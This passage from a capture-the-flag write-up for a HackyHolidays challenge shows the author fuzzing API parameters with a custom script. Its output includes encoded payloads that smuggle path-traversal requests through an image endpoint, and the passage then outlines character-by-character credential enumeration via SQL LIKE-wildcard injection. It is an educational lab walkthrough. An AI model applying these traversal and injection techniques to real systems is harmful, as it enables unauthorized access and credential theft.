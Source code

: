 Maybe it expects parameters?

### Fuzzing for API Parameters

I added another fuzzing function to my [fuzzer](#enum-script) (look at the `fuzz_param()` function). Using `burp-parameter-names.txt` from [seclists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt), the results  obtained were:

> False responses contain: `0`, `400` and `404` status codes

```bash
$ python r3c0n-server-exploit.py /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt

What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
2

[+] Discovered parameters(s): 
  [+] password
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/cGFzc3dvcmQ9YSIsImF1dGgiOiJjMjEwNTI2ZTMwMDRkODQwYzhmMDM5YjM5MTVlODlkMCJ9

  [+] username
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9YSIsImF1dGgiOiJmMjllN2U2MjFmYmE3ZTFjZmU4MzBkYTBiODljMjhmYyJ9
```

Giving us 2 parameters `username` and `password`.

### Enumerating Credentials

It was time to enumerate the login credentials. What if the parameter values in `username` and `password` are used in a vulnerable SQL query as well? Such as:

```sql
... WHERE username LIKE ' + $_GET["username"] + ' AND password LIKE ' + $_GET["password"] + ';
```

Then, we can simply inject `<GUESS>%` and see if it matches any usernames, character by character! Trying the input `a%` shows us a `FALSE` result:

<p align="center">
